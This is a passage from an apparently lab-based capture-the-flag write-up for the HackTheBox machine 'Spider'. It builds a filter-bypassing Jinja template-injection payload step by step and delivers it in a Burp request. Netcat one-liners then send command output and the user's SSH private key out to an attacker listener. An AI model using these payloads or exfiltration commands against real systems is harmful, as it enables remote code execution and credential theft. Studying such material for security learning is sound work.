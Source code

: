 Disgusting. But it works. And there's a reason for this. What the second payload is doing is calling on the request class, then it calls its global attributes, then from its global attributes it calls for the builtins attributes, then it calls the import method and passes the value "os", which is one of the builtins (the module os  is used for terminal commands), and from there we can execute commands. However, now we need to make this payload bypass the filter. To do this we are going to first hex encode all of our single quotes, since python can automatically convert hex encoded strings back to normal text with the `\x` prefix. So we are replacing all of our `_` with `\x5f`. To bypass the `.`, we can treat each object as an array of properties and use brackets. This can be done like this: `firstClass["__SomeProperty__"]["__SomePropertyOfSomeProperty__"]("MethodArgument__ForSomePropertyOfSomeProperty__") `Once we use both of those bypass techniques, we get that final ugly payload. Here is a picture to better visualize the process

![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/Spider_7.png?raw=true) 



```
(1) {{ }} <-- Normal SSTI template 
(2) {% include %} <-- We use this to include something; in our case, a call to a function 
(3) {{request.application.__globals__.__builtins__.__import__("os").system("<some command>")}} <-- SSTI RCE template
(4) {% include request.application.__globals__.__builtins__.__import__("os").system("<some command>") %} <-- combining 2, 3 to bypass {{}} filter
(5) {% include request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["system"]("<someCommand") %} <-- 4, bypassing . filter
(6) {% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["system"]("<someCommand>") %} <-- 5, bypass _ filter via hex
```

Now that we have our payload, we should use Burp's Repeater function to make our lives easier. To test the payload, we will use a sleep command to replace the `<someCommand>` part of my payload. Our Burp Repeater request looks like this:

```
POST /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal HTTP/1.1
Host: spider.htb
Content-Length: 166
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://spider.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6IjEyOWY2MGVhLTMwY2YtNDA2NS1hZmI5LTZiZTQ1YWQzOGI3MyJ9.YYBDyA.3WHcEPN_Anplrc-JBTiCAwDO4LY
Connection: close

contact={% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["system"]("sleep 5") %}&message=a
```

And the sleep test works! Remember that SSH is running, so let's hope that we're a user. Sending a `whoami | netcat 10\x2e10\x2e16\x2e\18 4444` in our payload with a netcat listener on 4444 via `netcat -nvlp 4444` on our host machine shows us that we are `chiv`. So we can try reading our ssh key. Once again, we have to set up a listener and use `cat ~/.ssh/id_rsa | netcat 10\x2e10\x2e16\x2e\18 4444` in our payload to get the key.

```
Ncat: Connection from 10.10.10.243:55590.                                                              
-----BEGIN RSA PRIVATE KEY-----                                                                        
```